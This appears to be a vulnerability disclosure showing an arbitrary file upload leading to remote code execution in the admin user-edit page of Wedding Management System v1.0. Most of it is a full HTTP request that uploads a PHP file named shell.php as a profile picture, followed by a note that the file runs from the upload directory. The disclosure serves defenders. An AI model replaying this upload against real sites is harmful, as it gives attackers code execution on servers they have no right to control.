 # Wedding Management System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/users_edit.php?id=8

Loophole location：The editing function of "User Management" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_edit.php" file.

Click "Edit User" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/users_edit.php?id=8 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/users_edit.php?id=8
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11784258372980
Content-Length: 1069

-----------------------------11784258372980
Content-Disposition: form-data; name="submit"


-----------------------------11784258372980
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------11784258372980
Content-Disposition: form-data; name="firstname"

Pharell
-----------------------------11784258372980
Content-Disposition: form-data; name="lastname"

Colin
-----------------------------11784258372980
Content-Disposition: form-data; name="email"

pharell@mail.com
-----------------------------11784258372980
Content-Disposition: form-data; name="username"

pcolin
-----------------------------11784258372980
Content-Disposition: form-data; name="gender"

m
-----------------------------11784258372980
Content-Disposition: form-data; name="address"

115 Test Street
-----------------------------11784258372980
Content-Disposition: form-data; name="designation"

1
-----------------------------11784258372980--
```

The files will be uploaded to this directory \admin\upload\users\

![image](https://user-images.githubusercontent.com/54017627/167980507-58bdf106-5b54-4ed9-96fd-245017d07f15.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167980470-d13e8217-4197-4074-8840-7f5146f33aa9.png)
